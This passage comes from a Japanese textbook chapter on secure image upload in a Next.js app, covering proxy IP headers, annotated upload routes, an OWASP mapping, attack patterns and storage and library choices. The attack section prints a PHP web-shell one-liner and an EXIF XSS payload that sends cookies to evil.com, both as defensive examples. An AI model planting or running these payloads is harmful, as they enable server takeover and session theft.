 *   → req.ip で 1.2.3.4 が取得できる
 *
 * CDN経由の接続（Cloudflare等）:
 *   クライアント(IP: 1.2.3.4) ──→ CDN(IP: 5.6.7.8) ──→ サーバー
 *   → req.ip は CDN の IP (5.6.7.8) になってしまう！
 *   → 全ユーザーが同じIPに見えてしまう問題
 *
 * 解決策: HTTPヘッダーから元のIPを取得
 */
export function getClientIp(request: Request): string {
  // 優先順位1: Cloudflareが設定するヘッダー（最も信頼性が高い）
  const cfIp = request.headers.get('cf-connecting-ip')
  if (cfIp) return cfIp

  // 優先順位2: 一般的なプロキシヘッダー
  // 形式: "クライアントIP, プロキシ1IP, プロキシ2IP"
  const xForwardedFor = request.headers.get('x-forwarded-for')
  if (xForwardedFor) {
    return xForwardedFor.split(',')[0].trim()  // 最初のIPがクライアント
  }

  // 優先順位3: nginx等のリバースプロキシヘッダー
  const xRealIp = request.headers.get('x-real-ip')
  if (xRealIp) return xRealIp

  // フォールバック（通常は発生しない）
  return 'unknown'
}
```

**ヘッダーの信頼性と偽装リスク:**

| ヘッダー名 | 設定者 | 偽装リスク |
|-----------|--------|----------|
| cf-connecting-ip | Cloudflare CDN | 低（CDNが上書き） |
| x-forwarded-for | プロキシ/CDN | 中（先頭値は偽装可能） |
| x-real-ip | リバースプロキシ | 中（プロキシ設定に依存） |

```
■ x-forwarded-for の偽装攻撃

攻撃者が送信:
  X-Forwarded-For: 10.0.0.1

CDNが追記:
  X-Forwarded-For: 10.0.0.1, 203.0.113.50
                   ↑ 偽装値     ↑ 実際のIP

対策:
  信頼できるプロキシの後ろでのみ使用する
  Cloudflareのcf-connecting-ipはCDN自身が設定するため安全
```

### 11.12.11 アップロードAPIのセキュリティ実装全体

`app/api/upload/route.ts`のソースコード全体を、セキュリティの観点から行ごとに解説します。

```typescript
// app/api/upload/route.ts（実際のコード）

import { auth } from '@/lib/auth'
import { uploadFile } from '@/lib/storage'
import { NextRequest, NextResponse } from 'next/server'
import { checkUserRateLimit, checkDailyLimit } from '@/lib/rate-limit'
import {
  validateImageFile,
  validateVideoFile,
  generateSafeFileName,
} from '@/lib/file-validation'
import { MAX_VIDEO_SIZE, MAX_IMAGE_SIZE } from '@/lib/constants/limits'
import { logger } from '@/lib/logger'

// ── 定数定義 ──
// ファイルサイズの上限は lib/constants/limits.ts で一元管理
// MAX_IMAGE_SIZE = 4 * 1024 * 1024    // 4MB
// MAX_VIDEO_SIZE = 256 * 1024 * 1024  // 256MB
//
// なぜ環境変数ではなく定数か？
// → セキュリティに関わる値は、コード内で明示的に管理すべき
// → 環境変数の設定ミスでセキュリティが緩和されるのを防ぐ

export async function POST(request: NextRequest) {
  try {
    // ═══ セキュリティ層1: 認証チェック ═══
    const session = await auth()

    if (!session?.user?.id) {
      // 具体的な認証失敗理由は返さない（情報漏洩防止）
      // ×「トークンが期限切れです」→ 攻撃者にヒントを与える
      // ✓「認証が必要です」→ 最小限の情報
      return NextResponse.json({ error: '認証が必要です' }, { status: 401 })
    }

    // ═══ セキュリティ層2: レート制限 ═══
    // ユーザーIDベースの制限（IPベースより正確）
    const rateLimitResult = await checkUserRateLimit(session.user.id, 'upload')
    if (!rateLimitResult.success) {
      return NextResponse.json(
        { error: 'アップロードが多すぎます。しばらく待ってから再試行してください' },
        { status: 429 }
      )
    }

    // 日次制限
    const dailyLimitResult = await checkDailyLimit(session.user.id, 'upload')
    if (!dailyLimitResult.allowed) {
      return NextResponse.json(
        { error: `1日のアップロード上限（${dailyLimitResult.limit}回）に達しました` },
        { status: 429 }
      )
    }

    // ═══ セキュリティ層3: ファイル存在確認 ═══
    const formData = await request.formData()
    const file = formData.get('file') as File

    if (!file) {
      return NextResponse.json({ error: 'ファイルが選択されていません' }, { status: 400 })
    }

    // ═══ セキュリティ層4: Content-Typeの大分類チェック ═══
    const isVideo = file.type.startsWith('video/')
    const isImage = file.type.startsWith('image/')

    if (!isVideo && !isImage) {
      return NextResponse.json(
        { error: '画像または動画ファイルを選択してください' },
        { status: 400 }
      )
    }

    // ═══ セキュリティ層5: ファイルサイズ制限 ═══
    const maxSize = isVideo ? MAX_VIDEO_SIZE : MAX_IMAGE_SIZE
    if (file.size > maxSize) {
      const maxSizeMB = maxSize / 1024 / 1024
      return NextResponse.json(
        { error: isVideo
          ? `動画は${maxSizeMB}MB以下にしてください`
          : `画像は${maxSizeMB}MB以下にしてください` },
        { status: 400 }
      )
    }

    // ═══ セキュリティ層6: マジックバイト検証 ═══
    const buffer = Buffer.from(await file.arrayBuffer())

    if (isImage) {
      const validation = validateImageFile(buffer, file.type)
      if (!validation.valid) {
        return NextResponse.json({ error: validation.error }, { status: 400 })
      }
    } else if (isVideo) {
      const validation = validateVideoFile(buffer, file.type)
      if (!validation.valid) {
        return NextResponse.json({ error: validation.error }, { status: 400 })
      }
    }

    // ═══ セキュリティ層7: ファイル名サニタイズ ═══
    const safeFileName = generateSafeFileName(file.name, file.type)
    const folder = isVideo ? 'post-videos' : 'post-images'

    // ═══ ストレージにアップロード ═══
    const result = await uploadFile(buffer, safeFileName, file.type, folder)

    if (!result.success || !result.url) {
      return NextResponse.json(
        { error: result.error || 'アップロードに失敗しました' },
        { status: 500 }
      )
    }

    return NextResponse.json({
      success: true,
      url: result.url,
      type: isVideo ? 'video' : 'image',
    })
  } catch (error) {
    // ═══ エラー処理: 情報漏洩防止 ═══
    // サーバーログには詳細を記録（デバッグ用）
    // logger はlib/logger.tsで定義された環境対応ロギングユーティリティ
    logger.error('Media upload error:', error)

    // クライアントには一般的なメッセージのみ返す
    // ×「/var/app/uploads/: Permission denied」→ ファイルパス漏洩
    // ×「Connection to R2 failed: timeout」→ インフラ構成漏洩
    // ✓「アップロード中にエラーが発生しました」→ 安全
    return NextResponse.json(
      { error: 'アップロード中にエラーが発生しました。しばらく経ってから再試行してください' },
      { status: 500 }
    )
  }
}
```

### 11.12.12 アバター/ヘッダーアップロードAPIのセキュリティ

アバター・ヘッダー画像のアップロードには、通常のアップロードに加えて「古い画像の削除」という追加のセキュリティ考慮があります。BON-LOGでは、アバターとヘッダーのアップロード処理を**共通化**しています。

```typescript
// app/api/upload/avatar/route.ts
// アバターアップロードのルートハンドラ（実際のコード）

import { NextRequest } from 'next/server'
import { handleProfileImageUpload } from '../_shared/profile-image-upload'

export async function POST(request: NextRequest) {
  return handleProfileImageUpload(request, 'avatar')
}
```

```typescript
// app/api/upload/header/route.ts
// ヘッダーアップロードのルートハンドラ（実際のコード）

import { NextRequest } from 'next/server'
import { handleProfileImageUpload } from '../_shared/profile-image-upload'

export async function POST(request: NextRequest) {
  return handleProfileImageUpload(request, 'header')
}
```

アバターとヘッダーの両方で共有される処理を `_shared/profile-image-upload.ts` に集約しています。

```typescript
// app/api/upload/_shared/profile-image-upload.ts
// プロフィール画像アップロードの共通処理（実際のコード）

import { auth } from '@/lib/auth'
import { prisma } from '@/lib/db'
import { uploadFile, deleteFile } from '@/lib/storage'
import { NextRequest, NextResponse } from 'next/server'
import { revalidatePath } from 'next/cache'
import { ERR_AUTH_REQUIRED, ERR_FILE_NOT_SELECTED, ERR_IMAGE_SIZE_EXCEEDED, ERR_INVALID_IMAGE_FORMAT, ERR_RATE_LIMIT_UPLOAD } from '@/lib/constants/errors'
import { MAX_IMAGE_SIZE } from '@/lib/constants/limits'
import { logger } from '@/lib/logger'
import { checkUserRateLimit, checkDailyLimit } from '@/lib/rate-limit'
import { validateImageFile } from '@/lib/file-validation'
import { STORAGE_FOLDER_AVATARS, STORAGE_FOLDER_HEADERS } from '@/lib/constants/storage'

type ProfileImageType = 'avatar' | 'header'

/**
 * ★ 設定オブジェクトによるDRY化
 *
 * アバターとヘッダーの違いは「DBのフィールド名」「保存先フォルダ」「ログラベル」の3つだけ。
 * これらを設定オブジェクトにまとめることで、コードの重複を完全に排除。
 */
const CONFIG = {
  avatar: {
    dbField: 'avatarUrl' as const,
    storageFolder: STORAGE_FOLDER_AVATARS,
    logLabel: 'Avatar',
  },
  header: {
    dbField: 'headerUrl' as const,
    storageFolder: STORAGE_FOLDER_HEADERS,
    logLabel: 'Header',
  },
} as const

export async function handleProfileImageUpload(request: NextRequest, type: ProfileImageType) {
  const config = CONFIG[type]

  try {
    const session = await auth()

    if (!session?.user?.id) {
      return NextResponse.json({ error: ERR_AUTH_REQUIRED }, { status: 401 })
    }

    // レート制限チェック
    const rateLimitResult = await checkUserRateLimit(session.user.id, 'upload')
    if (!rateLimitResult.success) {
      return NextResponse.json({ error: ERR_RATE_LIMIT_UPLOAD }, { status: 429 })
    }

    // 日次制限チェック
    const dailyLimitResult = await checkDailyLimit(session.user.id, 'upload')
    if (!dailyLimitResult.allowed) {
      return NextResponse.json(
        { error: `1日のアップロード上限（${dailyLimitResult.limit}回）に達しました` },
        { status: 429 }
      )
    }

    const formData = await request.formData()
    const file = formData.get('file') as File

    if (!file) {
      return NextResponse.json({ error: ERR_FILE_NOT_SELECTED }, { status: 400 })
    }

    if (file.size > MAX_IMAGE_SIZE) {
      return NextResponse.json({ error: ERR_IMAGE_SIZE_EXCEEDED }, { status: 400 })
    }

    const allowedTypes = ['image/jpeg', 'image/png', 'image/webp']
    if (!allowedTypes.includes(file.type)) {
      return NextResponse.json({ error: ERR_INVALID_IMAGE_FORMAT }, { status: 400 })
    }

    // ファイルをBufferに変換
    const buffer = Buffer.from(await file.arrayBuffer())

    // ファイルシグネチャ検証（マジックバイトチェック）
    const validation = validateImageFile(buffer, file.type, allowedTypes)
    if (!validation.valid) {
      return NextResponse.json({ error: validation.error || ERR_INVALID_IMAGE_FORMAT }, { status: 400 })
    }

    /**
     * ★ 古い画像の取得（削除のため）
     *
     * なぜアップロード前に取得するか？
     * → アップロード成功後に古い画像のURLが必要
     * → アップロード後にDBが更新されると、古いURLがわからなくなる
     *
     * config.dbField を使って動的にフィールドを選択:
     * → avatar の場合: { avatarUrl: true, headerUrl: true }
     * → header の場合: 同じ select で headerUrl を取得
     */
    const currentUser = await prisma.user.findUnique({
      where: { id: session.user.id },
      select: { avatarUrl: true, headerUrl: true },
    })

    // ストレージにアップロード（config.storageFolder で保存先を切り替え）
    const result = await uploadFile(buffer, file.name, file.type, config.storageFolder)

    if (!result.success || !result.url) {
      return NextResponse.json(
        { error: result.error || 'アップロードに失敗しました' },
        { status: 500 }
      )
    }

    // DBを更新（config.dbField で更新フィールドを切り替え）
    await prisma.user.update({
      where: { id: session.user.id },
      data: { [config.dbField]: result.url },
    })

    /**
     * ★ 古い画像を削除
     *
     * セキュリティ/コスト上の考慮:
     * 1. プレースホルダー画像は削除しない（共有リソース）
     * 2. 削除失敗はログだけで、ユーザーにはエラーを返さない
     *    → 新しい画像のアップロードは成功しているため
     *    → 古いファイルの「ゴミ」は定期的な掃除で対応可能
     * 3. .catch() で非同期エラーを捕捉（未処理Promiseを防止）
     */
    const oldUrl = currentUser?.[config.dbField]
    if (oldUrl && !oldUrl.includes('placeholder')) {
      await deleteFile(oldUrl).catch((err: unknown) => {
        logger.warn(`Failed to delete old ${type}:`, err)
      })
    }

    // キャッシュの再検証（更新後の画像を即座に反映）
    revalidatePath('/users/' + session.user.id)
    revalidatePath('/settings/profile')

    return NextResponse.json({
      success: true,
      url: result.url,
    })
  } catch (error) {
    logger.error(`${config.logLabel} upload error:`, error)
    return NextResponse.json(
      { error: 'アップロード中にエラーが発生しました。しばらく経ってから再試行してください' },
      { status: 500 }
    )
  }
}
```

### 11.12.13 OWASP Top 10とアップロードセキュリティの対応

OWASP（Open Web Application Security Project）のTop 10脆弱性リストに対して、BON-LOGのアップロード機能がどのように対策しているかを整理します。

| OWASP脆弱性 | BON-LOGの対策 |
|-------------|--------------|
| A01: アクセス制御の不備 | auth() による認証チェック / session.user.id でユーザーを特定 / 自分のアバター以外は変更不可 |
| A02: 暗号化の失敗 | R2/SupabaseはHTTPS通信 / 認証キーは環境変数で管理 / NEXT_PUBLIC_ なしでサーバーのみ |
| A03: インジェクション | ファイル名のUUID化（パストラバーサル防止） / フォルダのホワイトリスト検証 / SVGアップロード不許可（XSS防止） |
| A04: 安全でない設計 | 多層防御（Defense in Depth） / 入力バリデーション（マジックバイト） / ファイルサイズ制限 |
| A05: セキュリティ設定のミス | 環境変数による機密情報管理 / エラーメッセージの情報漏洩防止 |
| A07: 認証の不備 | NextAuth.js セッション検証 / JWTトークンベースの認証 |
| A08: ソフトウェアとデータの完全性 | npm audit によるパッケージ脆弱性チェック / マジックバイトによるファイル完全性検証 |
| A09: セキュリティログの不足 | console.error でサーバーログに記録 / logger モジュールによる構造化ログ |

### 11.12.14 アップロードにおける一般的な攻撃パターンと対策

実際に起こりうるアップロード攻撃のパターンと、BON-LOGでの対策を具体的に解説します。

```
■ 攻撃パターン1: Web Shell アップロード

攻撃内容:
  PHPやNode.jsのスクリプトファイルをアップロードし、
  サーバー上で実行させる

具体例:
  ファイル名: "shell.php.jpg"
  Content-Type: "image/jpeg"
  中身: <?php system($_GET['cmd']); ?>

対策（BON-LOG）:
  ✅ マジックバイト検証 → PHPファイルのシグネチャはJPEGと異なるため検出
  ✅ ファイル名を完全再生成 → .php拡張子は付与されない
  ✅ ストレージがオブジェクトストレージ → サーバー上でスクリプト実行不可

■ 攻撃パターン2: ZIP Bomb（圧縮爆弾）

攻撃内容:
  極端に圧縮されたファイルをアップロードし、
  展開時にサーバーのメモリやディスクを枯渇させる

具体例:
  ファイルサイズ: 42KB
  展開後サイズ: 4.5PB（ペタバイト）

対策（BON-LOG）:
  ✅ ファイルサイズ制限（4MB/256MB）
  ✅ sharpの処理でピクセル数上限あり（268メガピクセル）
  ✅ 画像ファイルは圧縮を展開せずにsharpで処理

■ 攻撃パターン3: Slowloris（低速アップロード攻撃）

攻撃内容:
  大量の接続を開き、極めて低速でデータを送信し続けることで、
  サーバーの接続数を枯渇させる

対策（BON-LOG）:
  ✅ Vercelのリクエストタイムアウト（10-60秒）
  ✅ レート制限（5回/分、50回/日）
  ✅ Cloudflareのボット検出機能

■ 攻撃パターン4: 画像メタデータ悪用

攻撃内容:
  EXIF情報にJavaScriptやHTMLを埋め込み、
  メタデータを表示するページでXSS攻撃を行う

具体例:
  EXIF Comment: <script>document.location='https://evil.com?c='+document.cookie</script>

対策（BON-LOG）:
  ✅ sharpによるEXIF自動除去（デフォルト動作）
  ✅ EXIF情報をUIに直接表示しない
  ✅ Content-Security-Policy ヘッダーでスクリプト制限
```

<details>
<summary><b>理解度チェック: アップロードセキュリティの応用</b></summary>

**Q1**: フェイルオープンとフェイルクローズの違いと、それぞれが適切な場面を説明してください。

**A1**: フェイルオープンは障害時にリクエストを許可する方式で、フェイルクローズは障害時にリクエストを拒否する方式です。レート制限ではフェイルオープンが適切です。Redisの一時的な障害で全ユーザーがブロックされるとサービス利用に大きな影響があり、短時間のレート制限バイパスはそれほど深刻ではありません。一方、認証チェックではフェイルクローズが適切です。認証システムの障害で未認証ユーザーがアクセスできてしまうと、データ漏洩や不正操作の深刻なリスクがあるためです。

**Q2**: 日次制限が分単位レート制限に加えて必要な理由をコストの観点から説明してください。

**A2**: 分単位のレート制限（5回/分）だけでは、制限を超えずに1日で最大7,200回（5回×60分×24時間）のアップロードが可能です。R2のClass A Operations料金（$4.50/100万回）を考えると、1,000ユーザーが毎日上限までアップロードすると年間約$11,800のコストになります。日次制限（50回/日）を追加することで、最大コストを年間約$82に抑えられます。つまり、日次制限はクラウドサービスの課金暴走を防ぐ「コスト保護機構」としても機能しています。

**Q3**: `getClientIp()` 関数で `cf-connecting-ip` を最優先で使用する理由は何ですか？

**A3**: BON-LOGはCloudflareのCDN/プロキシを経由してリクエストを受け取ります。`cf-connecting-ip` ヘッダーはCloudflareのインフラが自動的に設定するヘッダーで、クライアント（攻撃者）が偽装することができません。一方、`x-forwarded-for` はリクエストチェーンの各プロキシが追記する形式のため、クライアントが先頭に偽のIPアドレスを追加できてしまいます。信頼できるインフラ（Cloudflare）が設定するヘッダーを最優先で使用することで、IPアドレスの偽装による レート制限のバイパスを防ぎます。

**Q4**: アバターアップロード時に古い画像の削除が `.catch()` でエラーを握りつぶしている理由は何ですか？

**A4**: 古い画像の削除はアップロード処理の「おまけ」であり、本質的な処理（新しいアバターのアップロードとDB更新）は既に成功しています。古い画像の削除に失敗しても、(1) 新しいアバターは正常に表示される、(2) ユーザー体験に影響がない、(3) 古い画像は孤立ファイル（orphan）として残るだけでセキュリティリスクは低い、という理由から、エラーをログに記録するだけで処理を継続します。孤立ファイルは定期的なクリーンアップジョブで後から削除できます。
</details>

---

## 11.13 演習問題

### 演習1: ドラッグ&ドロップアップロード

ドラッグ&ドロップで画像をアップロードできる機能を実装してください。

ヒント:
- `onDrop`, `onDragOver`, `onDragLeave`イベントを使用
- `DataTransfer.files`からファイルを取得
- ドラッグ中の視覚的フィードバック

### 演習2: 画像トリミング機能

アップロード前に画像をトリミングできる機能を実装してください。

ヒント:
- `react-easy-crop`ライブラリを使用
- トリミング後の座標を取得
- サーバー側でSharpを使って画像をクロップ

### 演習3: プログレッシブ画像読み込み

大きな画像を低解像度プレビュー → 高解像度の順に読み込む機能を実装してください。

ヒント:
- アップロード時に複数のサイズ（small, medium, large）を生成
- `useState`でloading状態を管理
- `onLoadingComplete`で画像読み込み完了を検知

## 11.14 まとめ

この章では、画像アップロード機能を実装しました。

学んだ内容:
- Cloudflare R2を使ったオブジェクトストレージ
- Strategy + Singletonパターンによるマルチプロバイダストレージ（Local, Supabase, R2）
- Sharpによるサーバー側画像処理
- Canvas APIによる外部ライブラリ不要のクライアント側画像圧縮（`lib/client-image-compression.ts`）
- next/imageによる自動最適化
- プレビュー・エラーハンドリング・プログレス表示
- 共通ハンドラパターンによるアバター/ヘッダーアップロードのDRY化（`_shared/profile-image-upload.ts`）
- エラーメッセージ・制限値の定数管理（`lib/constants/errors.ts`, `lib/constants/limits.ts`）
- マジックバイト検証による堅牢なファイルバリデーション
- 多層防御によるアップロードセキュリティ（認証 → レート制限 → 日次制限 → 型検証 → サイズ検証 → シグネチャ検証 → ファイル名サニタイズ）

これでBON-LOGの主要機能が揃いました。次章では、検索機能やレコメンデーション機能など、さらに高度な機能を実装していきます。

---

## 11.15 技術選定の理由 -- なぜこの技術スタックを選んだのか

画像アップロード機能を構成する3つの柱 -- **ストレージ**、**画像処理ライブラリ**、**アップロード方式** -- について、それぞれどのような選択肢があり、なぜ最終的にこの構成を選んだのかを詳しく解説します。

技術選定は「正解が1つ」ではありません。プロジェクトの規模、予算、チームのスキル、将来の拡張性など、さまざまな要素を総合的に判断して決めるものです。ここでは、BON-LOGの要件に照らして各選択肢を比較し、判断の過程を透明にします。

---

### 11.15.1 ストレージの選択肢

画像を保存する「場所」を選ぶことは、アップロード機能の最も重要な決定の一つです。主要な選択肢を比較しましょう。

#### 候補一覧

| サービス | 提供元 | S3互換 | 無料枠 | 特徴 |
|----------|--------|--------|--------|------|
| **Cloudflare R2** | Cloudflare | はい | 10GB/月 | エグレス料金無料（BON-LOG本番で採用） |
| **AWS S3** | Amazon | -- (本家) | 5GB/12ヶ月 | 最も普及、エコシステム豊富 |
| **Google Cloud Storage** | Google | 一部互換 | 5GB/月 | BigQueryとの連携が強力 |
| **Supabase Storage** | Supabase | いいえ | 1GB | Supabase DBとの統合が容易（BON-LOGで採用） |

#### 各選択肢の詳細

**AWS S3（Amazon Simple Storage Service）**

クラウドストレージの事実上の標準です。「オブジェクトストレージ」というカテゴリを世に広めたサービスであり、他の多くのサービスがS3の API仕様を真似しています（これを「S3互換」と呼びます）。

```
メリット:
- 最も成熟したサービス（2006年〜）
- ドキュメント・ライブラリ・事例が豊富
- AWS CloudFront（CDN）との連携が容易
- ライフサイクルポリシーで自動的に古いファイルを削除/移動

デメリット:
- エグレス（データ転送出力）料金が高い
  → 画像をユーザーに配信するたびに課金される
- 料金体系が複雑（リクエスト数、ストレージクラス、転送量...）
- 個人開発者には過剰な機能が多い
```

> **用語解説: エグレス（Egress）料金とは？**
>
> クラウドストレージからインターネットへデータを送信する際にかかる料金です。たとえば、ユーザーがブラウザで画像を閲覧するとき、ストレージから画像データがユーザーのブラウザに転送されます。この「出ていくデータ」に対して課金されるのがエグレス料金です。
>
> ```
> [ストレージ] --画像データ--> [インターネット] ---> [ユーザーのブラウザ]
>                  ↑
>            ここに課金される（エグレス料金）
> ```
>
> SNSのように大量の画像が頻繁に閲覧されるサービスでは、エグレス料金がストレージ料金を大幅に上回ることがあります。AWS S3の場合、1GBあたり約$0.09（約14円）かかります。月間100万回の画像閲覧があり、平均画像サイズが500KBだとすると、エグレスだけで約$45（約7,000円）/月になります。

**Google Cloud Storage（GCS）**

Googleのオブジェクトストレージです。S3と機能的にはほぼ同等ですが、GoogleのAIサービスやBigQuery（データ分析サービス）との連携が強みです。

```
メリット:
- S3互換APIを一部サポート（移行しやすい）
- Cloud CDNとの統合が容易
- 画像分析（Cloud Vision API）との連携

デメリット:
- S3ほどのエコシステムがない
- エグレス料金はS3と同程度
- 日本語ドキュメントが少なめ
```

**Supabase Storage**

BON-LOGがデータベースとして使っているSupabaseが提供するストレージサービスです。

```
メリット:
- Supabase DBとの統合が非常に簡単
- Row Level Security（RLS）でアクセス制御
- ダッシュボードから直接ファイル管理

デメリット:
- 無料枠が1GBと小さい
- S3互換APIがない（Supabase独自のクライアント）
- CDN機能が限定的
- 画像変換機能がベータ版
```

**Cloudflare R2（BON-LOGの選択）**

Cloudflareが2022年に正式リリースしたオブジェクトストレージです。

```
メリット:
- エグレス料金が完全無料（最大の差別化ポイント）
- S3互換API（既存のS3ライブラリがそのまま使える）
- Cloudflare CDNに自動統合（世界300+拠点）
- 無料枠: 10GB/月のストレージ、100万リクエスト/月

デメリット:
- S3と比べて歴史が浅い（2022年〜）
- 一部のS3機能が未実装（ライフサイクルポリシー等）
- Cloudflareエコシステムへの依存
```

#### BON-LOGがCloudflare R2を選んだ理由

```
判断基準と評価:

1. コスト（個人開発〜小規模サービス向け）
   → R2: エグレス無料 + 無料枠10GB = 初期コストほぼゼロ
   → S3: エグレス料金が画像配信の多いSNSでは痛い

2. S3互換API
   → R2: @aws-sdk/client-s3がそのまま使える
   → 将来S3に移行する場合もコード変更が最小限

3. CDN（コンテンツ配信ネットワーク）
   → R2: Cloudflare CDNが自動統合
   → S3: CloudFrontを別途設定する必要あり

4. 開発体験
   → R2: Wrangler CLIでローカル開発可能
   → ダッシュボードがシンプルで見やすい

5. 将来の拡張性
   → S3互換なので、将来S3に移行しても問題なし
   → Cloudflare Workers（サーバーレス関数）との連携も可能
```

> **用語解説: CDN（Content Delivery Network）とは？**
>
> 世界各地にサーバー（エッジサーバー）を配置し、ユーザーに最も近いサーバーからコンテンツを配信する仕組みです。たとえば、画像データが東京のサーバーに保存されている場合、大阪のユーザーには大阪のエッジサーバーから、ニューヨークのユーザーにはニューヨークのエッジサーバーから配信されます。
>
> ```
>                       [オリジンサーバー（東京）]
>                       /         |         \
>                      /          |          \
>            [大阪エッジ]    [ロンドンエッジ]   [NYエッジ]
>                |               |               |
>          大阪のユーザー   ロンドンのユーザー  NYのユーザー
>          （近いので速い）  （近いので速い）   （近いので速い）
> ```
>
> CDNを使わない場合、すべてのリクエストが東京のサーバーに集中し、遠い地域のユーザーは表示が遅くなります。

---

### 11.15.2 画像処理ライブラリの選択肢

アップロードされた画像をリサイズ・圧縮・形式変換するためのライブラリを選びます。

#### 候補一覧

| ライブラリ | 動作環境 | ネイティブ依存 | 速度 | 特徴 |
|-----------|---------|--------------|------|------|
| **sharp** | Node.js | libvips (C) | 非常に高速 | Node.js最適化 |
| **Jimp** | Node.js | なし（pure JS） | 遅い | インストール簡単 |
| **ImageMagick** | CLI | 要インストール | 高速 | 機能最多 |
| **Cloudinary** | クラウド | -- (API) | -- | URL変換で処理 |
| **imgproxy** | Docker | Go製バイナリ | 高速 | URLベース処理 |

#### 各選択肢の詳細

**Jimp（JavaScript Image Manipulation Program）**

純粋なJavaScript（Pure JavaScript）で書かれた画像処理ライブラリです。

```javascript
// Jimpでの画像リサイズ例
import Jimp from 'jimp'

const image = await Jimp.read(buffer)
image
  .resize(800, Jimp.AUTO)  // 幅800px、高さ自動
  .quality(80)              // JPEG品質80%
  .writeAsync('output.jpg')
```

```
メリット:
- ネイティブ依存なし（npm installだけで動く）
- 環境構築のトラブルが少ない
- 軽量（パッケージサイズが小さい）

デメリット:
- 処理速度が非常に遅い（sharpの10〜50倍遅い）
- WebP/AVIF形式への変換が未対応
- メモリ効率が悪い（大きな画像で問題に）
- メンテナンスが不安定
```

**ImageMagick**

30年以上の歴史を持つ、最も機能豊富な画像処理ツールです。

```bash
# ImageMagickでの画像リサイズ例（コマンドライン）
convert input.jpg -resize 800x600 -quality 80 output.jpg
```

```
メリット:
- 対応フォーマットが200以上
- 画像処理機能が最も豊富
- 長い歴史と豊富なドキュメント

デメリット:
- システムへのインストールが必要（Vercelでは不可）
- Node.jsとの連携にラッパーライブラリが必要
- セキュリティ脆弱性の歴史がある
- サーバーレス環境との相性が悪い
```

**Cloudinary**

画像・動画の管理・変換をクラウドで行うSaaS（Software as a Service）です。

```javascript
// CloudinaryでのURL変換例
// アップロード後、URLパラメータで変換を指定
const url = `https://res.cloudinary.com/demo/image/upload/w_800,h_600,c_fill,q_80/sample.jpg`
//                                                       ↑幅  ↑高さ ↑クロップ ↑品質
```

```
メリット:
- サーバー側の処理が不要（URLで変換を指定）
- AIベースの画像最適化
- 豊富な変換オプション（顔認識クロップ等）

デメリット:
- 月額料金が高い（無料枠: 25GB/月、25,000変換/月）
- 外部サービスへの依存（障害時に画像が表示されない）
- データがCloudinaryに保存される（データ主権の問題）
```

**imgproxy**

Go言語で書かれた高速な画像処理サーバーです。URLに変換パラメータを含めてリクエストすると、リアルタイムで画像を変換して返します。

```
メリット:
- Dockerで簡単にデプロイ
- URLベースの直感的なAPI
- Go言語製で高速

デメリット:
- 別途サーバーが必要（Vercelでは使いにくい）
- インフラ管理の手間
- 個人プロジェクトには過剰
```

**sharp（BON-LOGの選択）**

libvips（C言語製の高速画像処理ライブラリ）のNode.jsバインディングです。

```typescript
// sharpでの画像処理例
import sharp from 'sharp'

const processedBuffer = await sharp(inputBuffer)
  .resize(800, 600, { fit: 'inside' })  // 800x600以内にリサイズ
  .webp({ quality: 80 })                 // WebP形式に変換
  .toBuffer()
```

```
メリット:
- 処理速度がJimpの10〜50倍速い
- メモリ効率が非常に良い（ストリーミング処理）
- WebP/AVIF等の最新フォーマットに対応
- Node.jsエコシステムで最も使われている
- Vercelで問題なく動作する

デメリット:
- ネイティブ依存（C言語のlibvips）
- インストール時にビルドが必要な場合がある
- パッケージサイズがやや大きい
```

#### BON-LOGがsharpを選んだ理由

```
判断基準と評価:

1. 処理速度
   → sharp: 1枚あたり数十ミリ秒（libvipsのC言語バインディング）
   → Jimp: 1枚あたり数百ミリ秒〜数秒（pure JavaScript）
   → SNSでは多数の画像を処理するため、速度は重要

2. メモリ効率
   → sharp: ストリーミング処理でメモリ使用量が少ない
   → Vercelのサーバーレス関数はメモリ制限があるため重要

3. 対応フォーマット
   → sharp: WebP、AVIF等の最新フォーマットに対応
   → WebPはJPEGより25〜35%小さいファイルサイズ
   → ユーザーの通信量節約に直結

4. Vercelとの互換性
   → sharp: Vercelで標準的に使われている
   → ImageMagick: Vercelでは使用不可
   → imgproxy: 別途サーバーが必要

5. エコシステム
   → sharp: Next.jsのnext/imageの内部でも使われている
   → npmで週間ダウンロード数がトップクラス
```

> **用語解説: WebPとAVIFとは？**
>
> **WebP**はGoogleが開発した画像形式で、JPEGと比較して25〜35%小さいファイルサイズで同等の画質を実現します。2023年時点で主要ブラウザすべてが対応しています。
>
> **AVIF**はAlliance for Open Media（AOM）が開発した次世代画像形式で、WebPよりもさらに20%程度小さいファイルサイズを実現します。ただし、まだ対応ブラウザが限られているため、WebPをメインにしつつAVIFをプログレッシブ・エンハンスメント（対応ブラウザのみで利用）として提供するのが現在のベストプラクティスです。
>
> ```
> 画質が同じ場合のファイルサイズ比較:
>
> JPEG  ████████████████████  100%（基準）
> WebP  █████████████         65〜75%
> AVIF  ██████████            50〜60%
> ```

> **用語解説: MIME型（MIMEタイプ）とは？**
>
> ファイルの種類を表す文字列です。ブラウザやサーバーがファイルの内容を正しく解釈するために使います。画像の場合、以下のようなMIME型があります。
>
> | MIME型 | ファイル形式 | 用途 |
> |--------|-------------|------|
> | `image/jpeg` | JPEG | 写真全般 |
> | `image/png` | PNG | 透過画像、スクリーンショット |
> | `image/webp` | WebP | Web向け最適化画像 |
> | `image/avif` | AVIF | 次世代Web画像 |
> | `image/gif` | GIF | アニメーション画像 |
>
> BON-LOGでは、アップロード時にMIME型をチェックして、許可された画像形式のみ受け付けるようにしています。さらに、ファイルの先頭バイト列（マジックバイト）も検証することで、拡張子を偽装した不正ファイルを検出します。

> **用語解説: EXIF（Exchangeable Image File Format）とは？**
>
> デジタルカメラやスマートフォンが画像ファイルに埋め込むメタデータ（付加情報）です。撮影日時、カメラの機種、GPS座標（撮影場所）、シャッタースピード、ISO感度などの情報が含まれます。
>
> | 画像ファイルの構造 | 内容 |
> |------------------|------|
> | EXIFヘッダー | 撮影日時、GPS座標、カメラ情報... |
> | 画像データ本体 | 実際のピクセルデータ |
>
> **セキュリティ上の注意**: SNSに画像をアップロードする際、EXIF内のGPS座標がそのまま公開されると、撮影場所（自宅など）が特定されるリスクがあります。BON-LOGでは、sharpによる画像処理時にEXIFデータを自動的に除去しています。

---

### 11.15.3 アップロード方式の選択肢

画像をブラウザからストレージに転送する方式にも、いくつかの選択肢があります。

#### 候補一覧

| 方式 | データ経路 | サーバー負荷 | 実装の難易度 |
|------|-----------|------------|------------|
| **プリサインドURL** | ブラウザ → ストレージ（直接） | 低い | 中 |
